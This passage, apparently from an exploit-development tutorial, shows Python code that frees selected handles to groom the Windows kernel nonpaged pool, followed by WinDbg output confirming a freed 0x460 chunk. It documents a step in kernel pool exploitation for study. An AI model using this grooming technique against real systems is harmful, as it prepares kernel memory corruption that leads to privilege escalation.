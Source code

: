                     pass

            # make sure it's contiguously allocated memory
            if len(tuple(bin)) == 14:
                holes.append(tuple(bin))

    # make the holes to fill
    for hole in holes:
        for handle in hole:
            kernel32.CloseHandle(handle)
{% endhighlight %}

Now, when we run the freeing function, we punch holes into the pool and get a freed chunk of our target size.

{% highlight text %}
kd> !pool 8674e000
Pool page 8674e000 region is Nonpaged pool
*8674e000 size:  460 previous size:    0  (Free)      *Io                       <-- 0x460 chunk is free
    Pooltag Io   : general IO allocations, Binary : nt!io
 8674e460 size:   60 previous size:  460  (Allocated)  IoCo (Protected)
 8674e4c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e500 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e560 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e5a0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e600 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e640 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e6a0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e6e0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e740 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e780 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e7e0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e820 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e880 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e8c0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e920 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674e960 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674e9c0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ea00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ea60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674eaa0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eb00 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674eb40 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eba0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ebe0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ec40 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ec80 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ece0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ed20 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ed80 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674edc0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ee20 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ee60 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674eec0 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674ef00 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
 8674ef60 size:   40 previous size:   60  (Allocated)  Even (Protected)
 8674efa0 size:   60 previous size:   40  (Allocated)  IoCo (Protected)
{% endhighlight %}
